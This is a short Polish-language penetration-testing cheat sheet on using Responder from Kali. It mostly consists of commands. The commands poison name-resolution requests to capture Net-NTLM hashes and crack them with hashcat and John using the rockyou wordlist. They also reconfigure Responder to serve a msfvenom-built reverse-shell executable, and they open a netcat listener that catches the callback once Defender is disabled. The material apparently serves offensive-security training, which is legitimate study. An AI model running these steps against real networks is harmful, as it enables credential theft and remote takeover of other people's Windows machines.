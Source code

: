 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# Responder Kali

Responder odpowiada na zapytania DNSowe - jak w sieci nie można znaleźć danej strony to Responder będzie się podszywać pod tą szukaną stronę i przechwytywać HASH Net-NTLM

```python
#przechwytywanie hashy Net-NTLM podczas zapytań na różnych protokołach np LLMNR
responder -I eth0 -v

#zapisujemy jeden z hashy do pliku
vim hash

#sprawdzamy jakiego typu (NTLM/MD5 itd) to za hash
hashid hash

#weryfikujemy jaki numer ma NTLM w hashcat
man hashcat

#odszyfrowujemy hasło z tego hasha (w hashcat tryb NTLM czyli -m 5600)
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
john --format=ntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt hash
```

**inne**

{% code fullWidth="true" %}
```python
#zmuszenie żeby użytkownik się zalogował na naszej stronie
#edycja pliku konfiguracyjnego
vim /etc/responder/Responder.conf
HTTP Server ON

Always serving EXE OFF
Serving EXE ON
Serving HTML OFF

#wpisujemy w exploratorze w Windowsie jakikolwiek niepoprawny adres http://assaddassxasa

#włączamy Respondera i pojawi się okienko do logowania na stronę
responder -I eth0 -v -b

#przesłanie payloada REVRSE SHELL
#edycja pliku konfiguracyjnego
vim /etc/responder/Responder.conf
HTTP Server ON

Always serving EXE OFF
Serving EXE ON
Serving HTML ON

Custom EXE File to serve
ExeFilename = files/shell.exe

#tworzenie payloada
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.20.10.31 LPORT=8000 -f exe > shell.exe

#przenoszenie stworzonego payloada do katalogu z responderem
mv shell.exe /usr/share/responder/files/shell.exe

#uruchamiamy respondera
responder -I eth0 -v

#wyłączamy Defendera i ściągamy Proxy Client
#wystawiamy listenera na Kalim
nc -nlvp 8000

#klikamy w plik ProxyClient.exe
```
{% endcode %}
